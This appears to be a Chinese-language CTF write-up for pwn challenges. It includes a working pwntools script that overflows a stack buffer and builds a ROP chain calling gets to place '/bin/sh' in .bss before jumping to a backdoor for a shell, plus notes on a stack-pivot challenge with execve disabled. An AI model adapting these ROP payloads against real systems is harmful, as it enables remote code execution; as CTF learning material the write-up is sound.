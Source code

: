 > 很好的ret2dlresolve
> 
> [延迟绑定与 ret2dlresolve 详解 - xshhc - 博客园](https://www.cnblogs.com/xshhc/p/17335007.html)

这道题emmm我没有ret2libc，不过思路是从ret2dlresolve搞到的

不过题目看起来涉及libc的样子（难道不是预期解法，等我都写完就去翻翻看

毕竟这道题其实就差一个指向’/bin/sh‘字符串的指针，后面的system都给好函数了

原理就是重新调用一次gets，自己找一个固定地址写进去，这样就有了一个固定的指向’/bin/sh‘字符串的指针，直接放到rdi里调后门就好了

```python
elf = ELF("---------/nothing")
libc = ELF("-----------/libc.so.6")
read_plt = elf.plt['gets']
print(hex(read_plt))
buf = elf.bss() + 0x800
print(hex(buf))
p = remote('node9.anna.nssctf.cn', 25526)

payload =  ((b'A'* (48+8) +
            p64(0x0401273) + p64(buf) +
            p64(read_plt) +
            p64(0x0401273) + p64(buf) + p64(0x04011C1)))
p.sendline(payload)
sleep(3)
payload = b'/bin/sh\x00'
p.sendline(payload)
p.interactive()
```

`elf.bss() + 0x800`这个是随机的，只要放在不影响别人的地方就好了，不过参考写的0x800，我也写这个

总之就是第一次payload准备好调用链，先gets，再backdoor

第二次payload是自己的gets给的机会，输入’/bin/sh‘

之后就会按第一次给的调用链走下去了

## 4 不可名状的东西

这是一个栈劫持，好多坑（

整理一下思考步骤

- 只有rbp+ret+一个指针的溢出区，搜了一下只能栈劫持
- 发现不能调用system，因为execve被禁用了！只能走单独输出flag的路子
- rop可以通过libc库里的构造，但是每个libc能用的gadget是不一样的！
- 劫持后的调用链不能超过输入的缓冲区也就是0x80！！！！

我就是后两条叠加卡住了！！！！本地的库可以直接pop rdx整个调用链放满

远端的没有直接pop的，必须pop两个，调用链就超了

调试了好久，以后还是直接用题目给的so调试吧

之前以为很难搞的，但做了一下感觉还蛮方便的（只要找版本顺利
